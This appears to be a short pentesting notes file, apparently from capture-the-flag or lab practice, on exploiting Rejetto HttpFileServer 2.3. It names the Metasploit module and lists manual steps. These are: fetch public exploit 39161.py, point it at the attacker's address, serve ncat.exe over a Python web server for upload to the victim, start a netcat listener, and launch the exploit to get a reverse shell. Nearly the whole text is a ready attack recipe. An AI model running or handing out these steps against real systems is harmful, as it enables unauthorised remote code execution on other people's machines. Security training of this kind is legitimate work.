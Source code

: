 # HFS HttpFileServer 2.3 (Rejetto)
## exploitation with metasploit
* msf> use exploit/windows/http/rejetto_hfs_exec
## manual exploitation
* source: https://systemweakness.com/manual-privilege-escalation-rejetto-http-file-server-windows-rce-1148a025c15a
* download ncat.exe from github (we need to host it on the attack machine and the exploit will upload it to the victim machine)
  * https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe
* $ searchsploit -m 39161.py
* $ nano 39161.py
  * change "ip_addr" to tun0
  * "localport" can be leaved at "443" or can be changed to arbitrary port (this will be the reverse shell port that nc will get connection on)
* $ mv ncat.exe nc.exe
  * rename netcat exe (in the exploit it is nc.exe, at github repo it is ncat.exe)
* $ python -m http.server 80
  * we need it so the exploit can upload the ncat.exe to the victim
  * if we want to change it we probably has to change the commands in the exploit as well (to the appropriate port that we gave to python)
* $ nc -nvlp 443
* $ python 39161.py 10.10.10.2 80
  * ip and port of victim machine
